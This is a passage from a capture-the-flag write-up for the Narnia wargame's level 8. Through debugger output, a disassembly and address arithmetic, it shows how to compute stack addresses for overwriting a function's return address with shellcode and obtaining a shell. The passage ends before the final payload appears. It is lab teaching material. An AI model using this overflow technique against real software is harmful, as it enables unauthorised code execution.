 
More specifically, it is at 0x080484a7.

{% highlight bash %}
pwndbg> x/x 0x080484a7                                                                                                                                                       0x80484a7 <main+23>:    0x83   
{% endhighlight %}

We can verify that this is the return address of func by disassembling the main function:

{% highlight bash %}
pwndbg> disass main  
Dump of assembler code for function main:  0x08048490 <+0>:     push   ebp  0x08048491 <+1>:     mov    ebp,esp  0x08048493 <+3>:     cmp    DWORD PTR [ebp+0x8],0x1  0x08048497 <+7>:     jle    0x80484ac <main+28>  0x08048499 <+9>:     mov    eax,DWORD PTR [ebp+0xc]  0x0804849c <+12>:    add    eax,0x4  0x0804849f <+15>:    mov    eax,DWORD PTR [eax]  0x080484a1 <+17>:    push   eax  0x080484a2 <+18>:    call   0x804841b <func>  0x080484a7 <+23>:    add    esp,0x4  0x080484aa <+26>:    jmp    0x80484bf <main+47>  0x080484ac <+28>:    mov    eax,DWORD PTR [ebp+0xc]  0x080484af <+31>:    mov    eax,DWORD PTR [eax]  0x080484b1 <+33>:    push   eax  0x080484b2 <+34>:    push   0x8048554  0x080484b7 <+39>:    call   0x80482e0 <printf@plt>  0x080484bc <+44>:    add    esp,0x8  0x080484bf <+47>:    mov    eax,0x0  0x080484c4 <+52>:    leave   0x080484c5 <+53>:    ret   End of assembler dump.
{% endhighlight %}

Note that main+23 comes right after the call to func. Therefore, if we overwrite this return address of func to the address of the shellcode (just as we did in [Narnia 2](#h.e4mp3rcoeyar) and [Narnia 4](#h.125dslwuwfyp)), then the shellcode will be executed consequently giving a shell as the narnia9 user.

#### Shellcode

Now on the target machine, we can run the narnia8 binary with an input of 20 A’s and pipe it over to xxd to get the address of local_8:

{% highlight bash %}
narnia8@narnia:/narnia$ ./narnia8 $(python -c "print 'A'*20")|xxd                    00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA                  00000010: 4141 4141 d1d7 ffff e8d5 ffff a784 0408  AAAA............                                                                                                          00000020: d1d7 ffff 0a  
{% endhighlight %}

Here we can see that local_8 is located at 0xffffd7d1. Subtracting this address by 4 bytes (local_8c address) + 4 bytes (junk) + 4 bytes (shellcode address) + 33 bytes (shellcode[[13]](#ftnt13)), we get the local_8 address as 0xffffd7a4:

{% highlight bash %}
>>> hex(0xffffd7d1-(4+4+4+33))  
'0xffffd7a4'
{% endhighlight %}

To calculate the address of the shellcode, we add 20 to the local_8 address to account for 20 A’s + 4 (address of local_8) + 4 (junk) + 4 (address of shellcode):

{% highlight bash %}
>>> hex(0xffffd7a4+20+4+4+4)  
'0xffffd7c4'
{% endhighlight %}
